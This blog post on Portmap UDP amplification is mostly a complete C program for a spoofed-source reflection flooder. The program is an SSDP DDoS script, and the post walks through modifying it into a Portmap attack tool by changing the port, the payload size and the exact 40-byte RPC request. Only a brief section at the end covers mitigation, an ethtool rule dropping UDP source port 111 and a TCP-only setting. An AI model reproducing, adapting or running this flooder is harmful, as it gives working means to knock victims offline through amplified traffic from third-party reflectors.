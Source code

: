 = Portmap amplification

While this post is a bit late, man I am lazy, the timing of it reflects on the danger of it. 


##### Portmap?

Portmap is a pretty cool program showing information but I'm not here to talk about that, you can always just check them out yourself (http://linux.die.net/man/8/portmap).


###### What's the danger of this amplification method?


Portmap's amplification method has an amplification rate of 7-28x as stated by US-Certs (https://www.us-cert.gov/ncas/alerts/TA14-017A) but seen in the wild to have a value of 1348 bytes (19.8x). 

###### How can this even be possible!?

UDP amplification is a fairly simple thing! 

Essentially you search for a function that is externally accessible and responds with a bigger packet than one you send, in this case that is "Portmap"!

Let's start by grabbing a script off the internet to show how easy UDP amplification is shall we?

http://lmgtfy.com/?q=site%3Apastebin.com+SSDP.c

We then click the first one and *BAM* you've got a script that does UDP amplification but wait, this won't be ready just yet.
	
 
 	

        #include <time.h>
        #include <pthread.h>
        #include <unistd.h>
        #include <stdio.h>
        #include <stdlib.h>
        #include <string.h>
        #include <sys/socket.h>
        #include <netinet/ip.h>
        #include <netinet/udp.h>
        #include <arpa/inet.h>
        #define MAX_PACKET_SIZE 8192
        #define PHI 0x9e3779b9
        static uint32_t Q[4096], c = 362436;
        struct list
        {
                struct sockaddr_in data;
                struct list *next;
                struct list *prev;
        };
        struct list *head;
        struct thread_data{ int thread_id; struct list *list_node; struct sockaddr_in sin; };
        void init_rand(uint32_t x)
        {
                int i;
                Q[0] = x;
                Q[1] = x + PHI;
                Q[2] = x + PHI + PHI;
                for (i = 3; i < 4096; i++)
                {
                        Q[i] = Q[i - 3] ^ Q[i - 2] ^ PHI ^ i;
                }
        }
        uint32_t rand_cmwc(void)
        {
                uint64_t t, a = 18782LL;
                static uint32_t i = 4095;
                uint32_t x, r = 0xfffffffe;
                i = (i + 1) & 4095;
                t = a * Q[i] + c;
                c = (t >> 32);
                x = t + c;
                if (x < c) {
                        x++;
                        c++;
                }
                return (Q[i] = r - x);
        }
        /* function for header checksums */
        unsigned short csum (unsigned short *buf, int nwords)
        {
                unsigned long sum;
                for (sum = 0; nwords > 0; nwords--)
                sum += *buf++;
                sum = (sum >> 16) + (sum & 0xffff);
                sum += (sum >> 16);
                return (unsigned short)(~sum);
        }
        void setup_ip_header(struct iphdr *iph)
        {
                iph->ihl = 5;
                iph->version = 4;
                iph->tos = 0;
                iph->tot_len = sizeof(struct iphdr) + sizeof(struct udphdr) + 90;
                iph->id = htonl(54321);
                iph->frag_off = 0;
                iph->ttl = MAXTTL;
                iph->protocol = IPPROTO_UDP;
                iph->check = 0;
                iph->saddr = inet_addr("192.168.3.100");
        }
        void setup_udp_header(struct udphdr *udph)
        {
                udph->source = htons(5678);
                udph->dest = htons(1900);
                udph->check = 0;
                strcpy((void *)udph + sizeof(struct udphdr), "M-SEARCH * HTTP/1.1\r\nHost:239.255.255.250:1900\r\nST:ssdp:all\r\nMan:\"ssdp:discover\"\r\nMX:3\r\n\r\n");
                udph->len=htons(sizeof(struct udphdr) + 90);
        }
        void *flood(void *par1)
        {
                struct thread_data *td = (struct thread_data *)par1;
                char datagram[MAX_PACKET_SIZE];
                struct iphdr *iph = (struct iphdr *)datagram;
                struct udphdr *udph = (/*u_int8_t*/void *)iph + sizeof(struct iphdr);
                struct sockaddr_in sin = td->sin;
                struct  list *list_node = td->list_node;
                int s = socket(PF_INET, SOCK_RAW, IPPROTO_TCP);
                if(s < 0){
                        fprintf(stderr, "Could not open raw socket.\n");
                        exit(-1);
                }
                init_rand(time(NULL));
                memset(datagram, 0, MAX_PACKET_SIZE);
                setup_ip_header(iph);
                setup_udp_header(udph);
                udph->source = sin.sin_port;
                iph->saddr = sin.sin_addr.s_addr;
                iph->daddr = list_node->data.sin_addr.s_addr;
                iph->check = csum ((unsigned short *) datagram, iph->tot_len >> 1);
                int tmp = 1;
                const int *val = &tmp;
                if(setsockopt(s, IPPROTO_IP, IP_HDRINCL, val, sizeof (tmp)) < 0){
                        fprintf(stderr, "Error: setsockopt() - Cannot set HDRINCL!\n");
                        exit(-1);
                }
                int i=0;
                while(1){
                        sendto(s, datagram, iph->tot_len, 0, (struct sockaddr *) &list_node->data, sizeof(list_node->data));
                        list_node = list_node->next;
                        iph->daddr = list_node->data.sin_addr.s_addr;
                        iph->check = csum ((unsigned short *) datagram, iph->tot_len >> 1);
                        if(i==5)
                        {
                                usleep(0);
                                i=0;
                        }
                        i++;
                }
        }
        int main(int argc, char *argv[ ])
        {
                if(argc < 4){
                        fprintf(stderr, "Invalid parameters!\n");
                        fprintf(stdout, "Usage: %s <target IP> <target port> <reflection file> <throttle> <time (optional)>\n", argv[0]);
                        exit(-1);
                }
                int i = 0;
                head = NULL;
                fprintf(stdout, "Setting up Sockets...\n");
                int max_len = 128;
                char *buffer = (char *) malloc(max_len);
                buffer = memset(buffer, 0x00, max_len);
                int num_threads = atoi(argv[4]);
                FILE *list_fd = fopen(argv[3],  "r");
                while (fgets(buffer, max_len, list_fd) != NULL) {
                        if ((buffer[strlen(buffer) - 1] == '\n') ||
                                        (buffer[strlen(buffer) - 1] == '\r')) {
                                buffer[strlen(buffer) - 1] = 0x00;
                                if(head == NULL)
                                {
                                        head = (struct list *)malloc(sizeof(struct list));
                                        bzero(&head->data, sizeof(head->data));
                                        head->data.sin_addr.s_addr=inet_addr(buffer);
                                        head->next = head;
                                        head->prev = head;
                                } else {
                                        struct list *new_node = (struct list *)malloc(sizeof(struct list));
                                        memset(new_node, 0x00, sizeof(struct list));
                                        new_node->data.sin_addr.s_addr=inet_addr(buffer);
                                        new_node->prev = head;
                                        new_node->next = head->next;
                                        head->next = new_node;
                                }
                                i++;
                        } else {
                                continue;
                        }
                }
                struct list *current = head->next;
                pthread_t thread[num_threads];
                struct sockaddr_in sin;
                sin.sin_family = AF_INET;
                sin.sin_port = htons(atoi(argv[2]));
                sin.sin_addr.s_addr = inet_addr(argv[1]);
                struct thread_data td[num_threads];
                for(i = 0;i<num_threads;i++){
                        td[i].thread_id = i;
                        td[i].sin= sin;
                        td[i].list_node = current;
                        pthread_create( &thread[i], NULL, &flood, (void *) &td[i]);
                }
                fprintf(stdout, "Starting Flood...\n");
                if(argc > 5)
                {
                        sleep(atoi(argv[5]));
                } else {
                        while(1){
                                sleep(1);
                        }
                }
                return 0;
        }



Now that we have the script let's get working on it!

First let's take a look at the IP header function -

  void setup_ip_header(struct iphdr *iph)
  {
          iph->ihl = 5;
          iph->version = 4;
          iph->tos = 0;
          iph->tot_len = sizeof(struct iphdr) + sizeof(struct udphdr) + 90;
          iph->id = htonl(54321);
          iph->frag_off = 0;
          iph->ttl = MAXTTL;
          iph->protocol = IPPROTO_UDP;
          iph->check = 0;
          iph->saddr = inet_addr("192.168.3.100");
  }

Now you'll see that we need to change some stuff! The size of the payload for Portmap is "40" instead of "90" so we've gotta change that -

	iph->tot_len = sizeof(struct iphdr) + sizeof(struct udphdr) + 40;
    
then let's change the port to Portmap's port (111) -

  udph->dest = htons(111);

and finally change the payload! but wait...who actually uses strcpy anymore if we know the payload size? Let's just change that real quick!

  memcpy((void *)udph + sizeof(struct udphdr), "\x65\x72\x0A\x37\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xA0\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00", 40);

Then finally change 

	udph->len=htons(sizeof(struct udphdr) + 40);
    
   
and we're set to go!

Simple, right? That's exactly the problem...Amplification nowadays is so easy that anybody with half a brain could do it! so how do we stop this? Well one way is to just block source port 111! (http://dosattack.net/2015/09/13/Lets-talk-about-mitigation.html)
as said in our other post 

	ethtool --config-ntuple eth flow-type udp4 src-port 111 action -1


Portmap also functions on both UDP and TCP so if you're running a system that has it (~5 million devices) then switch to TCP-only mode and help ease the amount of traffic by closing off more reflectors!

I've personally taken the effort to email one of my favorite sites to monitor these types of amplification vectors to tell them to add it, https://www.shadowserver.org/wiki/. 

image::https://i.imgur.com/WMJKGfx.png[]

(We'll miss you Mailbox D: )



I'll put more effort into this post as the issue arises more but as we saw by a post by Level3 (blog.level3.com/security/a-new-ddos-reflection-attack-portmapper-an-early-warning-to-the-industry/)

Portmap is such a little threat that it barely shows up on their graphs of UDP amplification attacks (which I'm shocked to see that DNS amplification is higher than SSDP on)

image::http://blog.level3.com/wp-content/uploads/2015/08/reflection-highres-1024x531.jpg[]

